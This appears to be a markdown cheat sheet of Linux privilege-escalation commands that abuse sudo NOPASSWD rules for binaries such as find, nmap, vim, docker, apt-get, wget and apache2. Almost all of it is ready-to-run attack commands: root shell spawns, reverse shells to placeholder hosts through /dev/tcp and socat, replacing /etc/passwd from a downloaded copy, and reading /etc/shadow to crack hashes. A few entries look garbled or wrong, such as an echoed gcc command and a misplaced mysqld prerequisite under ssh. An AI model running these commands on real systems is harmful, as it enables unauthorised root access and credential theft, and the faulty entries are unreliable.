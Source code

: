 # Linux Privilege Escalation with Misconfigured sudo
<!-- ------------------------------------------- -->
## find
> (root) NOPASSWD: /usr/bin/find
```bash
sudo find /etc/passwd -exec /bin/bash \;
```
## Nmap 
> (root) NOPASSWD: /usr/bin/nmap
- Method 1 - The input will be invisible, but still executable.
```bash
echo "(function() os.execute('/bin/bash -i') end)()" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

- Method 2 - Use reverse shell method so that the input will not be invisible anymore.
```bash
echo "(function() os.execute('/bin/bash -c \"bash -i >& /dev/tcp/<target_ip>/<target_port> 0>&1\"') end)()" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
<!-- ------------------------------------------- -->
## env 
> (root) NOPASSWD: /usr/bin/env
```bash
sudo env /bin/bash
```
<!-- ------------------------------------------- -->
## vi
> (root) NOPASSWD: /usr/bin/vi
```bash
sudo vi -c ':!/bin/bash'
```
<!-- ------------------------------------------- -->
## vim
> (root) NOPASSWD: /usr/bin/vim
```bash
sudo vim -c ':!/bin/bash'
```
<!-- ------------------------------------------- -->
## awk
> (root) NOPASSWD: /usr/bin/awk
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```
<!-- ------------------------------------------- -->
## sed
> (root) NOPASSWD: /usr/bin/sed
```bash
sudo sed -n '1e exec sh 1>&0' /etc/passwd
```
<!-- ------------------------------------------- -->
## perl
> (root) NOPASSWD: /usr/bin/perl
```bash
sudo perl -e 'exec "/bin/bash";'
```
<!-- ------------------------------------------- -->
## python3
> (root) NOPASSWD: /usr/bin/python3
```bash
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
<!-- ------------------------------------------- -->
## less
> (root) NOPASSWD: /usr/bin/less
```bash
sudo less /etc/hosts
```
After that, type `!bash` inside it.
<!-- ------------------------------------------- -->
## man
> (root) NOPASSWD: /usr/bin/man
```bash
sudo man man
```
After that, type `!bash` inside it.
<!-- ------------------------------------------- -->
## ftp
> (root) NOPASSWD: /usr/bin/ftp
```bash
sudo ftp
```
After that, type `! /bin/bash` inside it.
<!-- ------------------------------------------- -->
## socat
> (root) NOPASSWD: /usr/bin/socat
This requires reverse shell approach
- Local Host (For receiving connection - hacker)
```bash
socat file:`tty`,raw,echo=0 tcp-listen:<Local Port>
```
- Remote Host (Victim or Target)
```bash
sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:<Target IP>:<Target Port>
```
<!-- ------------------------------------------- -->
## zip
> (root) NOPASSWD: /usr/bin/zip
```bash
echo "test" > /tmp/test && sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```
<!-- ------------------------------------------- -->
## gcc
> (root) NOPASSWD: /usr/bin/gcc
```bash
echo "sudo gcc -wrapper /bin/bash,-s ."
```
<!-- ------------------------------------------- -->
## docker
> (root) NOPASSWD: /usr/bin/docker
Prerequisite: `docker` daemon must be running.
```bash
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
<!-- ------------------------------------------- -->
## mysql
> (root) NOPASSWD: /usr/bin/mysql
Prerequisite: `mysqld` daemon must be running.
```bash
sudo mysql -e '\! /bin/sh'
```
<!-- ------------------------------------------- -->
## ssh
> (root) NOPASSWD: /usr/bin/ssh
Prerequisite: `mysqld` daemon must be running.
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
<!-- ------------------------------------------- -->
## tmux
> (root) NOPASSWD: /usr/bin/tmux
```bash
sudo tmux
```
<!-- ------------------------------------------- -->
## pkexec
> (root) NOPASSWD: /usr/bin/pkexec
```bash
sudo pkexec /bin/bash
```
<!-- ------------------------------------------- -->
## rlwrap
> (root) NOPASSWD: /usr/bin/rlwrap
```bash
sudo rlwrap /bin/bash
```
<!-- ------------------------------------------- -->
## xargs
> (root) NOPASSWD: /usr/bin/xargs
```bash
sudo xargs -a /dev/null sh
```
<!-- ------------------------------------------- -->
## anansi_util
> (root) NOPASSWD: /home/anansi/bin/anansi_util
```bash
sudo /home/anansi/bin/anansi_util manual /bin/bash 
```
<!-- ------------------------------------------- -->
## apt-get
> (root) NOPASSWD: /usr/bin/apt-get
```bash
 sudo apt-get update -o APT::Update::Pre-Invoke::="/bin/bash -i" 
```
<!-- ------------------------------------------- -->
## flask
> (root) NOPASSWD: /usr/bin/flask
```bash
cd /tmp
echo 'import pty; pty.spawn("/bin/bash")' > app.py
export FLASK_APP=flask
sudo /usr/bin/flask run
```
<!-- ------------------------------------------- -->
## wget
> (root) NOPASSWD: /usr/bin/wget
- Modify the copied of /etc/passwd with given password and then replace the original using wget.
- Replace "x" with custom generated hash and use that generated password to login as root.
```bash
sudo wget <url that host passwd file> -O /etc/passwd
```
<!-- ------------------------------------------- -->
## apache2
> s(root) NOPASSWD: /usr/sbin/apache2
- Use apache2 to access root protected file such as /etc/shadow
- Crack the hash to get password
```bash
sudo apache2 -f /etc/shadow
```
